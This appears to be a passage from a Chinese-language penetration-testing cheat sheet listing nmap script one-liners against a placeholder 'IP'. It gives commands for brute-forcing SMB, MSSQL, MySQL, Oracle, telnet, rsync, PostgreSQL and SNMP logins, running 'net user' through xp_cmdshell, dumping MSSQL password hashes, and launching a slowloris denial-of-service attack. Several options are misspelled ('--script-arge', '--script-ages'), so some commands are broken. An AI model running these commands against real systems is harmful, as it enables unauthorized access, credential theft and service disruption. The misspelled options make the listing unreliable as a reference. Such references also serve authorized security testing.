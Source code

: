         * smb 字典破解 nmap --script=smb-brute.nse --script-arge=userdb=/var/passwd,passdb=/var/passwd IP
        * smb 已知几个严重漏洞 nmap --script=smb-check-vulns.nse --script-args=unsafe=1 IP
        * 查看共享目录 nmap -p 445 --script smb-ls --script-arge\`share=e$,path=\,smbuser=test,smbpass=test\` IP
        * 查询主机一些敏感信息 nmap -p 445 -n --script=smb-psexec --script-args=smbuser=test,smbpass=test IP
        * 查看回话 nmap -n -p 445 --script=smb-enum-sessions.nse --script-args=smbuser=test,smbpass=test IP
        * 系统信息 nmap -n -p 445 --script=smb-os-discovery.nse --script-args=smbuser=test,smbpass=test IP
    - Mssql 扫描
        * 猜解mssql 用户名密码 nmap -p 1433 --script=ms-sql-brute --script-args=userdb=/var/passwd,passdb=/var/passwd IP
        * xp_cmdshell 执行命令 nmap -p 1433 --script=ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=sa,ms-sql-xp-cmdshell.cmd="net user" IP
        * dumphash 值 nmap -p 1433 --script=ms-sql-dump-hashes.nse --script-args mssql.username=sa,mssql.password=sa IP
    - Mysql 扫描
        * 扫描root 口令 nmap -p 3306 --script=mysql-empty-password.nse IP
        * 列出所有mysql 用户 nmap -p 3306 --script=mysql-user.nse --script-ages=mysqluser=root IP
        * 支持同一应用的所有扫描 nmap --script=mysql-* IP
    - Oracle 扫描
        * oracle sid 扫描 nmap --script=oracle-sid-brute -p 1521-1560 IP
        * oracle 弱口令破解 nmap --script=oracle-brute -p 1521 --script-ages oracle-brute.sid=ORCL,userdb=/var/passwd,passdb=/var/passwd IP
+ 其他一些比较好用的脚本
    - 发现网关
        * nmap --script=broadcast-netbios-master-browser IP
    - telnet 破解
        * nmap -sV --script=telnet-brute IP
    - dos 攻击
        * nmap --script http-slowloris --max-parallelism 400 IP
    - 破解rsync
        * nmap -p 873 --script=rsync-brute --script-ages 'rsync-brute.module=www' IP
    - informix 数据库破解
        * nmap -p 9088 --script=informix-brute IP
    - pgsql 破解
        * nmap -p 5432 --script=pgsql-brute IP
    - snmap 破解
        * nmap -sU --script=snmp-brute IP
    - 检查http 方法
        * nmap --script=http-methods.nse IP







